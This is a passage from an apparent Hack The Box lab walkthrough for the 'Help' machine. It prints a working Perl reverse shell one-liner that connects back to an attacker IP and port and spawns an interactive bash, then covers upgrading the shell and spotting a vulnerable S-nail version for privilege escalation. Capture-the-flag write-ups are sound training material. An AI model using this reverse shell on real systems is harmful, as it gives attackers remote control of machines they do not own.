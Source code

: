 Awesome.

Let's urlencode the following reverse shell in Perl.

```
perl -e 'use Socket;$i="10.10.14.169";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

<a class="image-popup">
![7f0bcfe9.png](/assets/images/posts/help-htb-walkthrough/7f0bcfe9.png)
</a>

Perfect. Let's [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.

The file `user.txt` is at `help`'s home directory.

<a class="image-popup">
![2ae85f72.png](/assets/images/posts/help-htb-walkthrough/2ae85f72.png)
</a>

## Privilege Escalation

During enumeration of `help`'s account, I notice that the box is using a vulnerable version of S-nail.

<a class="image-popup">
![5dcd5da6.png](/assets/images/posts/help-htb-walkthrough/5dcd5da6.png)
</a>

